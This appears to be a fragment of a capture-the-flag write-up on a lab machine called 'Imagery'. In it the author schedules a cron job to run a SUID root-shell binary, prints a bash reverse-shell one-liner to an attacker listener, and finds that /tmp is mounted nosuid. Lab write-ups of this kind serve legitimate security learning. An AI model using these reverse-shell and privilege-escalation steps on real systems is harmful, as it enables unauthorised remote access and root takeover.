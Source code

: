 Okay compiled C code and added it to run as cron job. Lets see what happens
Maybe we need to copy the file from /usr/bin

Lets start another nc listeneer
`sh -i >& /dev/tcp/10.10.14.11/8188 0>&1`
  
```bash
auto add --schedule "* * * * *" --command "/tmp/varRootShell" --name "varRootShell"  --log-output /tmp/r1.log
```
  
I've figured out why the rootshell was not working . It is because there maybe nosuid=1 on /tmp which doesnt allow executing suid bits on /tmp

This confirms why the suid was not working on /tmp folder
```bash
root@Imagery:/root# mount | grep "/tmp"
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,size=1979616k,nr_inodes=1048576,inode64)
```
    

